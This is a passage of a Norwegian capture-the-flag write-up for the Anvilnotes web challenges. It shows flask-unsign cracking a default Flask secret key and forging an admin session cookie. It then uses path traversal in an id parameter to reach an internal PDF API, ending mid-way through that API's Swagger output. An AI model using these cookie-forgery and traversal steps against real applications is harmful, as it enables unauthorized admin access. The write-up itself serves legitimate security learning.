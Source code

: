 Et stort hint i noten fra admin er punktet

`Secure flask token using military grade encryptions that can't be unsigned using open software.`

som bekrefter at de bruker Flask til å signere data med. Her kan vi bruke flask-unsign til å prøve en del standard-secrets

```
$ flask-unsign -u -c "eyJ1c2VybmFtZSI6InRlc3QifQ.Y5ukVw.XhK8QOgKp5qx_R0qfU0pYfFF9l0"
[*] Session decodes to: {'username': 'test'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (1920): -----BEGIN PRIVATE KEY-----ac
[+] Found secret key after 28544 attemptso4KIeAAde=6c
'This is an UNSECURE Secret. CHANGE THIS for production environments.'
```

Flask secret er altså en kjent streng. Nå kan vi signere en token som sier at vi er logget inn som admin

```
$ flask-unsign --sign --secret 'This is an UNSECURE Secret. CHANGE THIS for production environments.' --cookie "{'username': 'admin'}"
eyJ1c2VybmFtZSI6ImFkbWluIn0.Y5uk7w.5t0PmR7OTYk4lZ_01ekvJ2pzS4M
```

Øverst på Anvilnotes står flagget når man endrer cookie til denne

> # Welcome admin!
> 
> FLAGG: 76687...

og ved innlevering får vi et nytt hint

> Som admin har du kanskje tilgang til mer funksjonalitet?

### 2.04_anvilnotes_password

`admin`-brukeren har tilgang til å generere PDF-filer av et notat. Min første tanke er at PDF-generatoren har noen feil som lar meg inkludere lokale filer eller ressurser, men rask testing viser ingen tegn på at den parser teksten før den gjøres om til PDF. Om jeg i stedet endrer `id`-parameteren til f.eks. "x" så får jeg en interessant feilmelding fra `/genpdf`:

> http://localhost:9001/api/genpdf/x: Request failed

Så det kjører en lokal server for å generere PDFer, og `/genpdf` på anvilnotes går rett mot den. Path traversal ned til `/` via `id=../../` viser noe Swagger-output som beskriver funksjonaliteten i APIet

```json
{
  "definitions": {},
  "info": {
    "title": "Cool product name",
    "version": "0.0.0"
  },
  "paths": {
    "/api/decrypt": {
      "get": {
        "description": "",
        "parameters": [
          {
            "in": "GET(urlargs) or POST(body)",
            "name": "data",
            "required": true,
            "type": "hex string"
          }
        ],
        "produces": [
          "plaintext string"
```